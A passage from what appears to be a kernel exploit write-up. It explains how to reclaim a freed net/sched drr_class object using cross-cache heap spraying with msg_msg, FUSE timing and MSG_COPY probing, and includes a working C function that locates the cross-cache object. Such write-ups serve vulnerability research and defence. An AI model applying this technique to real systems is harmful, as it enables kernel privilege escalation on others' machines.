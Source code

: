 In fact, in addition to the time window, I also need to ensure that the drr_class object of the loop decrement is exactly the msg_msg object generated by prepare_copy. After the basic cross cache is done (explained in detail in the next section), it is just a general [heap spray](https://adamdoupe.com/publications/kheaps-exploit-reliability-usenix22.pdf) and the [multi-threading](https://libfuse.github.io/doxygen/structfuse__loop__config.html#aa91fc3ebb89633f27e94d8ab510bc37e) of FUSE to card points will reduce the success rate of exploitation. Drawing on the idea of [CVE-2022-29582](https://ruia-ruia.github.io/2022/08/05/CVE-2022-29582-io-uring/#method), I found a precise positioning method.

Although `CONFIG_SLAB_FREELIST_RANDOM` exists, because unbind decrement is equivalent to m_ts decrement, after decrementing by 1, the drr_class object bound multiple times can be determined through the return value of MSG_COPY:

```c
static void find_cross_cache(void)
{
    int i;
    int ret;
    struct msgbuf {
        long mtype;
        char mtext[0x40];
    } msg;

    send_del_filter(0x42);
    sleep(5);

    memset(&msg, 0, sizeof(msg));
    for (i = 0; i < 2 * SPRAY_PAGE_NUM * ONEPAGE_K128_NUM; i++) {
        ret = msgrcv(g_qid[i], &msg, 0x3f, 0, IPC_NOWAIT | MSG_COPY);
        if (ret > 0) {
            found_cross_qid = i;
            break;
        }
    }

    if (found_cross_qid < 0) {
        printf("[-] Cannot find the cross cache one :(\n");
        exit(-1);
    }

    printf("[+] Find the cross cache one is at %d msgq\n", found_cross_qid);
}
```

Because the early defragmentation will result in a certain number of free objects remaining in kmem_cache_cpu, first release this object that has been identified through msgrcv (hang on per cpu partial), spray a page of msg_msg object, decrement by 1 to identify again this reoccupied msg_msg is the `Xth` allocated among the 32 (starting from 0), msgrcv this object again, finally allocate `X+1` msg_msg, and the next time you allocate, you can reoccupy the drr_class object that has been bound multiple times:

![](https://image.baidu.com/search/down?url=https://wx2.sinaimg.cn/large/ee2fecafly1hme1hghveuj20g80bvta0.jpg)
